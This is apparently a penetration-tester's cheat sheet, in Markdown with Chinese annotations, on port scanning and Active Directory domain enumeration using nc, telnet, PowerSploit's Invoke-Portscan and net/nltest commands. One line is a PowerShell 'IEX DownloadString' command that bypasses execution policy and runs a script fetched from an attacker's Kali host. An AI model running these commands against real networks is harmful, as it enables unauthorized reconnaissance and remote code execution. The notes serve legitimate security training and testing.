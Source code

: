 ### Port scan
+ focus on banner, service and version, vulnerablity and exploit
+ scan with telnet or nc
+ scan with Invoke-portscan.ps1 from [powersploit](https://github.com/PowerShellMafia/PowerSploit)
+ F-NAScan, python2 scan tool

```bash
# telnet, 可能未安装
telnet IP port

nc ip port

# MSF
search portscan

# download file or string to execute
import-module Invoke-Portscan.ps1
Invoke-Portscan -Hosts 10.10.10.10 -Ports '1-65535'
Invoke-Portscan -Hosts 10.10.10.10 -Ports '21,22,25,80'

powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://kaliip/Invoke-Portscan.ps1');Invoke-Portscan -Hosts 10.10.10.10 -Ports '1-65535'"

```

### Domain info
+ search domain
+ domain computers
  > 机器用户/账号, 机器名$
+ domain users and groups
  > **Enterprise Admins**, 域林管理员组，最高权限
  > **Domain Admins**, 域管理员，默认加入localgroups组
+ domain account password rule
+ domain trusts
  > 域林信任关系**可传递**、**双向信任**

```bash
# domain, need dc
net view /domain        

# domain computers
net view /domain:testdomain 

# users and groups
net group /domain

# domain computers
net group "domain computers" /domain

# account password rule
net accounts /domain
gpupdate /force         # 强制更新组策略

# trust list
nltest /domain_trusts
```
